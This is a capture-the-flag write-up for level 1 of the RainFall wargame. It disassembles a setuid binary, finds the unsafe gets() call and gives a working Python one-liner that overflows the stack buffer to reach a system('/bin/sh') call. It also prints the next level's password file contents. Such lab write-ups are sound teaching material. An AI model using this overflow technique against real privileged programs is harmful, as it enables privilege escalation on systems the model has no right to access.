 # Level 1

## Hint

"man gets" :)

## Answer

First, let's analyze what we have:

```bash
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
level1@RainFall:~$ ./level1
42
```

We have a simple program that takes input and appears to do nothing significant.

Next, let's use objdump to inspect the program's assembly code:

```bash
level1@RainFall:~$ objdump -d level1
[...]
08048340 <gets@plt>:
 8048340:       ff 25 98 97 04 08       jmp    *0x8049798
 8048346:       68 00 00 00 00          push   $0x0
 804834b:       e9 e0 ff ff ff          jmp    8048330 <_init+0x38>      
[...]
08048444 <run>:
 8048444:       55                      push   %ebp
 8048445:       89 e5                   mov    %esp,%ebp
 8048447:       83 ec 18                sub    $0x18,%esp
 804844a:       a1 c0 97 04 08          mov    0x80497c0,%eax
 804844f:       89 c2                   mov    %eax,%edx
 8048451:       b8 70 85 04 08          mov    $0x8048570,%eax
 8048456:       89 54 24 0c             mov    %edx,0xc(%esp)
 804845a:       c7 44 24 08 13 00 00    movl   $0x13,0x8(%esp)
 8048461:       00 
 8048462:       c7 44 24 04 01 00 00    movl   $0x1,0x4(%esp)
 8048469:       00 
 804846a:       89 04 24                mov    %eax,(%esp)
 804846d:       e8 de fe ff ff          call   8048350 <fwrite@plt>
 8048472:       c7 04 24 84 85 04 08    movl   $0x8048584,(%esp)
 8048479:       e8 e2 fe ff ff          call   8048360 <system@plt>
 804847e:       c9                      leave  
 804847f:       c3                      ret    

08048480 <main>:
 8048480:       55                      push   %ebp
 8048481:       89 e5                   mov    %esp,%ebp
 8048483:       83 e4 f0                and    $0xfffffff0,%esp
 8048486:       83 ec 50                sub    $0x50,%esp
 8048489:       8d 44 24 10             lea    0x10(%esp),%eax
 804848d:       89 04 24                mov    %eax,(%esp)
 8048490:       e8 ab fe ff ff          call   8048340 <gets@plt>
 8048495:       c9                      leave  
 8048496:       c3                      ret    
 8048497:       90                      nop
 8048498:       90                      nop
 8048499:       90                      nop
 804849a:       90                      nop
 804849b:       90                      nop
 804849c:       90                      nop
 804849d:       90                      nop
 804849e:       90                      nop
 804849f:       90                      nop
[...]
```
```bash
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```

In the disassembled code, we find two main functions: `run` and `main`. The `run` function calls `fwrite` and `system`, with the latter using "/bin/sh" as an argument.

Now, let's focus on the `main` function. It reads input using the `gets` function and then returns. The `gets` function is known to be unsafe, as it can lead to buffer overflow vulnerabilities.

```bash
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. It has been used to break computer security. Use fgets() instead.
```

In this case, the program's stack has a size of 80 bytes, starting at 0x10 (16). Therefore, the buffer is 64 bytes long. Since the `gets` function is followed by the `run` function, we can exploit a stack buffer overflow.

To do this, we need to overwrite the return address (64 + 12) with the address of the `run` function, effectively redirecting program execution to it. This technique is known as a "Stack Buffer Overflow."

Let's execute the attack:

```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && cat) | ./level1
```

The program now executes the `run` function, which calls `/bin/sh`, and we gain shell access. We can then read the password for the next level:

```bash
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
exit
```

However, the program eventually crashes with a segmentation fault because the return address was tampered with.
